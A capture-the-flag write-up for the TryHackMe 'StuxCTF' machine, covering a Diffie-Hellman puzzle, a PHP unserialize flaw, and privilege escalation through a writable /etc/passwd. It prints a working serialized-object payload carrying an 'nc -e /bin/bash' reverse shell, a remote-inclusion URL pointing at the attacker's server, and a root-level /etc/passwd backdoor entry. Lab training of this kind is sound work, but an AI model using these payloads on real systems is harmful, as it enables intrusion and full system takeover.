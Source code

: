```yaml
---
title: StuxCTF 🧬
tags:
  - Linux
  - Python-Scripting
  - LFI
  - Decrypting
  - Crypto
  - TryHackMe
---
```

![](Pasted%20image%2020240531202235.png)

> *Even though this is a "Medium" machine, I found it a bit hard*

I started performing an Nmap scan:

```shell
nmap -sC -T4 -p- 10.10.114.31 > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-31 19:16 CEST
Nmap scan report for 10.10.114.31
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page

Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020240531202432.png)

As I found this, I took a look to the source code:

![](Pasted%20image%2020240531202503.png)

Here I found what it seemed to be some kind of variables to solve a problem.

Checking the hint on THM it seemed like [Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange)

![](Pasted%20image%2020240531202649.png)

So I created the following script:

```python
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617
gca=(gc**a)%p
gcab=(gca**b)%p

print(gcab)
print(str(gcab)[:128])
```

Which gave me this directory: `47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`

So I searched for it:

![](Pasted%20image%2020240531202831.png)

As I didn't detect anything with [dirsearch 📁](/notes/Tools/dirsearch.md), I decided to look at the source code:

![](Pasted%20image%2020240531202937.png)

It gave me the hint `<!-- hint: /?file= -->`, so it seemed like some kind of LFI

I tried to fuzz it and didn't work, so I put the unique file that is detected by **dirsearch**, which is `index.php` and searched for it: `http://10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php`

It printed some kind of hex code, which I decrypted using [Cyberchef](https://cyberchef.org/):

![](Pasted%20image%2020240531203241.png)

![](Pasted%20image%2020240531203322.png)

It was the script behind the `?file=`:

```html
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

I analyzed it in search of some code vulnerability and I found that in `unserialize(file_get_contents($file_name));` the function `unserialize` let us to load any file on the Internet.
- I found [this documentation](https://notsosecure.com/remote-code-execution-php-unserialize) which explains more about this vulnerability

So, to gain RCE, I created the file `shell.php`:

```php
<?php
class file
{
 public $file = 'remote.php';
 public $data = '<?php shell_exec("nc -e /bin/bash YOUR_IP YOUR_PORT"); ?>';
}

echo (serialize(new file));

?>
```

Then I performed the following command:

```shell
php shell.php > shell.txt
```

After this I initialize a python server `python3 -m http.server 8090`

And then I search for my file (the `.txt` one) like: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.11.74.136:8090/shell.txt`

So once here, the file is uploaded and you can search it: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/remote.php` 

> Take care of putting the name inside the php shell (in my case `remote.php`)

We've got a reverse shell:

![](Pasted%20image%2020240531204257.png)

And we found the user flag on the `/home/grecia` directory

![](Pasted%20image%2020240531204352.png)

I uploaded `linpeas` to scan for privilege escalation and found that the `/etc/passwd` was writable, so I did the following:

```
# On my machine
openssl passwd -1 -salt hacker hacker

# Then, on the /etc/passwd file I added at the end
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
```

![](Pasted%20image%2020240531204719.png)

After this, I logged in as the user `hacker` and got root access.

Got the root flag:

![](Pasted%20image%2020240531204821.png)

==Machine pwned==